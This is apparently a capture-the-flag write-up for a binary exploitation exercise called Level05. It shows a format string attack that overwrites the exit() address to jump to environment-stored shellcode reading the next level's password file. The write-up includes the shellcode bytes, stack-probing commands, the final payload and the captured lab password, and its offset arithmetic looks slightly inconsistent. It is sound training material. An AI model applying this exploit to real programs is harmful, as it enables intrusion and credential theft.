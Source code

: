 # Level05

> For introductory information on this operating system and binary securities, check [here](./analysis.md).

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./gdb.md)). This time we'll use a format string attack to inject a Shellcode at some existing address, here a `exit()` call at address `0x0804 97e0`.

```shell
  export SHELLCODE=$(python -c "print '\x90' * 1000 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass'")
```

> This shellcode was found [here](http://shell-storm.org/shellcode/files/shellcode-73.php) and basically read a file and output its content to standard input.

We'll need to find our input on the stack first:

```shell
 $> (python -c "print 'aaaa' + ' | %x' * 16") | ./level05 
  aaaa | 64 | f7fcfac0 | f7ec3af9 | ffffd2bf | ffffd2be | 0 | ffffffff | ffffd344 | f7fdb000 | 61616161 | 25207c20 | 207c2078 | 7c207825 | 20782520 | 7825207c | 25207c20
```

> `aaaa` is equal to `61616161` in hexadecimal. As we can see, there, our format string is the 10th argument on the stack.

Last step would be to get the actual address of that shellcode in our environment, using the following small program.

```C
  #include <stdio.h>
  #include <stdlib.h>

  int main(int argc, char** argv)
  {
    printf("env address at %p\n", getenv(argv[1]));
    return (0);
  }
```

Finally piece everything together... To make our life easier, we'll split our attack in two part so that overriding the whole address of `exit()` will be faster. We'll override high order bytes first at `exit()` address and low order bytes at `exit()` address + **2**.

```shell
  $> python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%<LOWER_BYTES_OFFSET>c%10$hn" + "%<HIGHER_BYTES_OFFSET>c%11$hn"' | ./level05
  ...
  h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

> For example, let's say our shellcode is at adress `0x673f92b6`.
>
> `LOWER_BYTES_OFFSET` is computed as follow: Shellcode lower bytes (`0x92b6` => **37558**) - already printed bytes (address of `exit()` + adress of `exit()`+ **2** => **8**). So **37550**.
>
> `HIGHER_BYTES_OFFSET` is computed as follow: `0xffff` - `LOWER_BYTES_OFFSET` - **8** => **65535** - **37558** - **8** = **27969**

So next user credentials pair is `level06:h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq`.

Check [here](../source.c) for reproduction source-code of this binary.